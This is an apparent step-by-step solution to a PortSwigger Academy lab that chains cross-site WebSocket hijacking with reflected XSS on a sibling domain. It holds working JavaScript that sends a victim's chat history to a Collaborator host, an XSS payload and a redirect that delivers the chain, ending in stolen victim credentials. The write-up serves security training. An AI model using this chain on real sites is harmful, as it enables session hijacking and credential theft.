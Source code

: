 # Lab 9: SameSite Strict bypass via sibling domain

## ✅ Lab Objective

**Exploit a CSWSH vulnerability to retrieve the victim's chat history and extract their credentials.**

---

## 🧪 Step-by-Step Solution

### 🔍 Study the Live Chat Feature

- 💬 **Interact with the chat:**
    - In Burp's browser, open the **live chat feature** and send a few messages.
- 📜 **Inspect the WebSocket handshake:**
    - Go to **Proxy > HTTP history** in Burp.
    - Look for the latest `GET /chat` request — this is the **WebSocket handshake**.
    - 📌 Notice that **no unpredictable tokens** are used → possible CSWSH vulnerability.
- 🔄 **Refresh the chat page:**
    - Go back to the browser and refresh the live chat page.
    - Open **Proxy > WebSockets history** in Burp.
    - 📨 Notice that the browser sends a `READY` message.
    - 📥 The server responds with the **entire chat history**.
        
        ![2025-08-17_19-28.png](LabImg/2025-08-17_19-28.png)
        
        ![2025-08-17_19-29.png](LabImg/2025-08-17_19-29.png)
        
        ![2025-08-17_19-30.png](LabImg/2025-08-17_19-30.png)
        

---

### ✅ Confirm the CSWSH Vulnerability

- 📋 **Get a Collaborator payload:**
    - Go to **Burp > Collaborator tab** and click **Copy to clipboard**.
- 🧬 **Create a CSWSH proof-of-concept (PoC):**
    - In the **exploit server**, paste the following script:
        
        ```html
        <script>
            var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
            };
        </script>
        
        ```
        
- 👀 **Test it:**
    - Store and view the exploit.
    - Poll Burp Collaborator.
    - ✔️ If an HTTP interaction is shown, the PoC **successfully connected** to the chat.
- 🚫 **Limitation:**
    - The chat history is only for **a new session**, not the victim’s.
- 🔍 **Inspect the handshake request:**
    - Go to **Proxy > HTTP history** and check the `GET /chat` request made by your PoC.
    - 🚫 It does **not contain your session cookie**.
- 🍪 **Cookie restriction identified:**
    - The server sets cookies with `SameSite=Strict`.
    - ❌ Prevents sending cookies in cross-site WebSocket requests.
        
        ![2025-08-17_19-33.png](LabImg/2025-08-17_19-33.png)
        
        ![2025-08-17_19-34.png](LabImg/2025-08-17_19-34.png)
        
        ![2025-08-17_19-40.png](LabImg/2025-08-17_19-40.png)
        
        ![2025-08-17_19-57.png](LabImg/2025-08-17_19-57.png)
        
        ![2025-08-17_19-57_1.png](LabImg/2025-08-17_19-57_1.png)
        
        ![2025-08-17_19-59.png](LabImg/2025-08-17_19-59.png)
        
        ![2025-08-17_20-00.png](LabImg/2025-08-17_20-00.png)
        
        ![2025-08-17_20-01.png](LabImg/2025-08-17_20-01.png)
        
        ![2025-08-17_20-02.png](LabImg/2025-08-17_20-02.png)
        

---

### 🧠 Identify an Additional Vulnerability in the Same "Site"

- 🔎 **Look for sibling domain exposure:**
    - In Burp Proxy history, observe the `Access-Control-Allow-Origin` headers in some responses.
    - 🧭 Discover a sibling domain:
        
        `cms-YOUR-LAB-ID.web-security-academy.net`
        
- 🔐 **Check for XSS:**
    - Open the URL in a browser.
    - Submit arbitrary login credentials.
    - 👁️ The **username is reflected** in the response.
- 💥 **Inject XSS:**
    - Try payload: `<script>alert(1)</script>`
    - ✅ Alert is triggered → **Reflected XSS confirmed.**
- 📤 **Modify the request:**
    - Send the `POST /login` with payload to **Burp Repeater**.
    - Change the method to `GET` → still works.
    - Copy and open the URL → XSS triggers.
- 🧩 **Why this matters:**
    - This sibling domain is **part of the same site**.
    - Using this XSS avoids the `SameSite=Strict` issue.

---

### 🛠️ Bypass SameSite Restrictions

- 💻 **Rebuild CSWSH script:**
    
    ```html
    <script>
        var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>
    
    ```
    
- 🧵 **URL encode the script** (use any online encoder).
- 🧠 **Trigger XSS using the encoded script:**
    
    ```html
    <script>
        document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
    </script>
    
    ```
    
- 💾 **Store and view the exploit.**
- 📬 **Poll Collaborator:**
    - You’ll receive multiple new **interactions**.
    - These contain the **entire chat history** of the current session.
- 🍪 **Verify session cookie:**
    - Go to Proxy > HTTP history.
    - Check the new `GET /chat` WebSocket request.
    - ✅ This time, the request **includes the session cookie**.
        
        ![2025-08-17_20-03.png](LabImg/2025-08-17_20-03.png)
        
        ![2025-08-17_20-05.png](LabImg/2025-08-17_20-05.png)
        
        ![2025-08-17_20-06.png](LabImg/2025-08-17_20-06.png)
        
        ![2025-08-17_20-07.png](LabImg/2025-08-17_20-07.png)
        
        ![2025-08-17_20-08.png](LabImg/2025-08-17_20-08.png)
        
        ![2025-08-17_20-08_1.png](LabImg/2025-08-17_20-08_1.png)
        

---

### 🚀 Deliver the Exploit Chain

- 🎯 **Send the final exploit to the victim** using the exploit server.
- 📥 **Poll Burp Collaborator:**
    - You should receive new HTTP interactions.
    - These include the **victim’s chat history**.
- 🔐 **Extract credentials:**
    - Locate a message in the chat history with the **victim’s username and password**.
- 🔓 **Log in as the victim.**
- 🎉 **Lab Solved!**
    
    ![2025-08-17_20-11.png](LabImg/2025-08-17_20-11.png)
    
    ![2025-08-17_20-12.png](LabImg/2025-08-17_20-12.png)
    
    ![2025-08-17_20-15.png](LabImg/2025-08-17_20-15.png)
    
    ![2025-08-17_20-16.png](LabImg/2025-08-17_20-16.png)
    
    ![2025-08-17_20-19.png](LabImg/2025-08-17_20-19.png)
    
    ![2025-08-17_20-20.png](LabImg/2025-08-17_20-20.png)
    
    ![2025-08-17_20-20_1.png](LabImg/2025-08-17_20-20_1.png)
    

---

## 📺 Community Solution

> 🔗 [Watch the walkthrough video](https://youtu.be/8RmZ1PbNZ7Y)
>